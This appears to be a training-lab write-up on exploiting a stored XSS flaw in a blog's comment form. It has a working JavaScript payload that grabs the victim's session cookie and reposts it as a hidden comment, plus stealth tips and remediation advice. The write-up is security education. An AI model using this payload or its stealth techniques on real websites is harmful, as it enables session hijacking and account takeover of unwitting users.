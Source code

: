# Lab: Exploiting Stored XSS to Steal Cookies

## 1. Title & Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in a blog comment feature can be exploited to steal a victim’s session cookie and impersonate them.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* This allows **arbitrary JavaScript injection**.
* A visiting victim executes attacker-controlled code in their browser.

---

## 3. Proof of Concept (PoC)
```html
<script>
    window.addEventListener("DOMContentLoaded",function () {
        var form = document.querySelector('.add-comment form');

        var data = new FormData(form);
        var sessioncookie = document.cookie.split('; ').find(c=>c.startsWith('session='));

        data.append('comment',"<span style='display:none'>"+sessioncookie+"</span>");
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');

        fetch(form.action,{
            method:"POST",
            mode:"no-cors",
            body:data,
            credentials:"include"
        })
    })
</script>
```
### Screenshots

![Injected payload in the comment form.](Images/Payload.png)
![Network tab showing the forged POST request.](Images/NetworkTab.png)
![Blog post page showing the hidden comment containing the stolen session cookie.](Images/Comment.png)

---

## 4. Exploit Workflow

1. Attacker posts the payload as a comment.
2. Victim views the blog post.
3. Victim’s browser executes the attacker’s script.
4. Script exfiltrates the victim’s session cookie by posting it back as a hidden comment.
5. Attacker reads the victim’s cookie, imports it into their browser, and hijacks the session.

---

## 5. Stealth Considerations

* The initial proof-of-concept exposed the cookie in a visible comment, which is not stealthy.
* Stealthier options include:

  * Use `display:none` to hide the stolen data.
  * Exfiltrate via a benign-looking field (e.g., `website`).
  * Encode the cookie before sending (`btoa`).
  * In real attacks, exfiltrate data to an attacker-controlled server (blocked in this lab).

---

## 6. Impact

* Full account takeover via stolen session ID.
* CSRF protections are bypassed, as the CSRF token is accessible.
* Trust in the application is broken (stored XSS affects all future visitors).

---

## 7. Remediation

* **Contextual output encoding:** escape user input before rendering.
* **HttpOnly cookies:** prevent JavaScript access to sensitive cookies.
* **Content Security Policy (CSP):** restrict where scripts can execute.
* **Input validation & sanitization:** prevent injection of arbitrary scripts.

---

## 8. Reflection

This lab demonstrates how a seemingly simple XSS bug can escalate into full account takeover.
Adding `HttpOnly` to session cookies alone would have prevented cookie theft, but the root cause is **unsafe rendering of untrusted input**.
This highlights why secure coding practices and **defense-in-depth** are critical.
